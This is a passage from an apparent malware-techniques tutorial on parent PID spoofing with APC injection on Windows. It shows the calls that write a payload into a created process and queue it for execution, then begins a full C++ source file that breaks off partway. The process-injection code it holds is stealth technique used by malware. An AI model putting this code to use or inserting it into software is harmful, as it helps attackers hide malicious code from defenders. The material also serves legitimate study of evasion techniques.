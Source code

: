 Write `meow-meow` payload to created process memory:      

```cpp
BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload, sizeof(my_payload), nb);
```

Add a user-mode asynchronous procedure call (APC) object to the APC queue of the thread of the created process:     

```cpp
QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);
```

Resume thread:    

```cpp
ResumeThread(pi.hThread);
CloseHandle(pi.hThread);
```

So, the full source code of this trick is:     

```cpp
/*
hack.cpp
parent PID spoofing with APC
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/06/malware-tricks-23.html
*/
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}


int main(int argc, char* argv[]) {
```